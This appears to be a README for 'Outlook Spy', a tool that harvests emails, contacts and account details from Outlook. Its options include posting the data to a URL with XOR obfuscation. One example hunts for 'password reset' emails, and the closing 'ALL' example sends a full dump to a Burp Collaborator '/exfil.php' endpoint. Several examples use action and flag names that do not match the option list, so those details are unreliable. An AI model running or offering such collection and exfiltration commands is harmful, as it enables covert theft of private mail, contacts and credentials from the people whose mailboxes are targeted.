 # Outlook Spy

Outlook Spy enables the retrieval of emails, contacts and accounts from Outlook.

```
Usage: OutlookSpy.exe <options>
        Required
                -a, --action    Action to be taken. (accounts, all, contacts, list_fields, messages_meta, message_single, message_full)

        Optional
                -e, --entry-id  Outlook generated entry id of the record to fetch
                -m, --max-records       Number of messages to retrieve
                -br, --body-contains-regex      Regex for searching email
                -bc, --body-contains    String for searching email body (insensitive).
                -sr, --subject-contains-regex   Filters messages if the subject contains the specified value.
                -sc, --subject-contains Filters messages if the subject contains the specified value.
                -fs, --max-message-size Restricts gathered messages to the specified size in bytes.
                -o, --output    Output type: csv,json
                -u, --url       url where data will be posted
                -x, --xor-key   Xor data before transmitting
                -f, --fields    Fields to include in final output.  If not specified, all fields are returned
```

## Usage Examples

### Retrieve Email Messages
Simple. Default to returning the first 1000 records in JSON format.
```
--action messages
```

Returns csv output of the first 5 email messages with "password reset" in the subject line and the email body contains the word "twitter".
```
--action messages --max-records 5 --output csv --subject-contains "password reset" --body-contains "twitter"
```

Returns a single email record.
```
--action message_single --output json --entryid "0000000017D328571A047845AC04D3428DA4E2920700C3B68E10F77511CE0C0000000000"
```

Returns only the Date, Subject.
```
--action message_single --output json --entryid "0000000017D328571A047845AC04D3428DA4E2920700C3B68E10F77511CE0C0000000000"
```

### Contacts
```
--action contacts --max-records 5000 --output json
```

### Accounts
Simeple.
```
--action accounts --output json
```

### ALL
```
--action full --max-records 5 --output json -u https://v2yacmohjrhwn7tg9m0km7lxvo1ep3.burpcollaborator.net/exfil.php --xor-key password
```